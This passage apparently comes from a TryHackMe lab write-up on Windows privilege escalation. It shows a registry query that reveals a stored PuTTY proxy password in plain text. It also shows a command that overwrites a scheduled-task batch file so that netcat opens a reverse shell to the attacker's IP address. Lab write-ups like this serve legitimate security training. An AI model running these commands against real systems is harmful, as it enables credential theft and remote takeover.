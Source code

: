 Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?
```
PS C:\Users\thm-unpriv> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
    ProxyExcludeList    REG_SZ
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x0
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    thom.smith
    ProxyPassword    REG_SZ    CoolPass2021
    ProxyTelnetCommand    REG_SZ    connect %host %port\n
    ProxyLogToTerm    REG_DWORD    0x1

End of search: 10 match(es) found.

CoolPass2021
```

## Other Quick Wins

#### Scheduled Tasks

If a user has permissions to configure or overwrite a task, they'll be able to execute arbitrary command on the machine. 

List out all scheduled tasks with  this command: 
```powershell
schtasks 
```

Query specific task by it's names and list out details of that task. 
In this case when executing the command in the windows shell on tryhackme the scheduled task is run as a different user but configurable by us. 
```powershell
schtasks /query /tn <task_name> /fo list /v
```

To check the permissions of a task, run the command below
```powershell
 icacls C:\tasks\
```


Running this command will use the nc64.exe application to open a reverseshell to the attacks computer when the scheduled task runs. 
This command must be run in cmd.exe
```
 echo C:\tools\nc64.exe -e cmd.exe 10.10.136.44 4444 > C:\tasks\schtask.bat
```

#### AlwaysInstallElevated
